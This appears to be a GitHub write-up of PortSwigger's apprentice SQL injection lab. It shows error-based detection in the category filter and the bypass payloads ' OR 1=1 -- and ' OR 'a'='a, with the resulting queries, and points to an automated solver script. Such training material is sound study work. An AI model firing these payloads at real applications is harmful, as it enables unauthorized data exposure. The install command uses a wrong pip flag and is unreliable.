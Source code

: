 \+ Lab #1    : SQL injection in WHERE clause\
\+ Lab Level : Apprentice\
\+ Link      : https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data \


## About:
This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter.<br/> 
When the user selects a category, the application carries out a SQL query like the following: 
```SQL
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
To solve the lab, perform a SQL injection attack that causes the application to display details of all products in any category, both released and unreleased. 

## Detection: 
* Submit a single quotation mark ```'``` in ```/filter?category=Gifts``` to break out the original SQL query quotation marks and cause an error
* The resulting query sent by the App to the back-end database:
```SQL
SELECT * FROM products WHERE category = 'Gifts'' AND released = 1
```
* The App returns a ```500 Internal Server Error``` response, which means that an error has occured in the back-end while processing the query.
* The ```category``` parameter is vulnerable to SQL injection.

## Exploitation:
### Manual:
1. Intercept the request with Burp Suite proxy
2. Send the request to repeater
3. Inject the ```category``` parameter with the following payload: ``` ' OR 1=1 --``` 
4. The resulting SQL query sent by the App to the backend database: 
```SQL
SELECT * FROM products WHERE category = '' OR 1=1 --' AND released = 1
SELECT * FROM products WHERE category = '' OR 1=1
```
> :memo: **Note:** The following payload ```' OR 'a'='a``` is also valid and achieves the same result as the 1=1 attack to return all products, regardless of whether they have been released.
```SQL
SELECT * FROM products WHERE category = '' OR 'a'='a' AND released = 1 
```

### Automated:
* Refer to https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/SQL%20Injection/Lab%231/Lab-1.py
* Requirements:
```bash
pip3 install -m requirements.txt
```
* Help Menu: 
```bash
$ python3 Lab-1.py --help
usage: Lab-1.py [-h] -u URL [-n]

Usage Example: python3 SQLi-Lab#1.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  Enter the Lab URL
  -n, --no-proxy     Do not use proxy                               
```
![Lab#1](https://user-images.githubusercontent.com/101610095/219432009-faf5cc9a-1828-47fc-8f9d-07eaa67ebb20.gif)
